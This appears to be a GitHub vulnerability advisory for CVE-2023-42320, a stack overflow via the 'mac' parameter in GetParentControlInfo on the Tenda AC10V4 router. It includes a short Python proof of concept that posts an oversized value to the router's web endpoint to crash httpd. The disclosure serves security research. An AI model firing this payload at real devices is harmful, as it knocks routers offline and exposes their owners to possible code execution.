 # CVE-2023-42320

> vendor:Tenda
>
> product:AC10V4
>
> version:US_AC10V4.0si_V16.03.10.13_cn_TDC01
>
> type:Stack Overflow  

## Vulnerability Description

Tenda AC10V4.0 si_V16.03.10.13_cn_TDC01 were discovered to contain a stack overflow via the mac parameter in the GetParentControlInfo function.

## Vulnerability Details

In function GetParentControlInfo line 35, it reads in a user-provided parameter, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![src0](https://github.com/aixiao0621/Tenda/blob/main/AC10/src0.jpg)

## Recurring vulnerabilities and POC

Run poc and you will see process httpd crash, segmentation fault.

```
import requests
    
host = "192.168.59.136:80"
cy = b'a'*1000
def exploit_GetParentControlInfo():
    url = f"http://{host}/goform/GetParentControlInfo"
    data = {
        b'mac':cy
    }
    res = requests.post(url=url,data=data)
    print(res.content)
exploit_GetParentControlInfo()
```

![src1](https://github.com/aixiao0621/Tenda/blob/main/AC10/src1.jpg)

## CVE
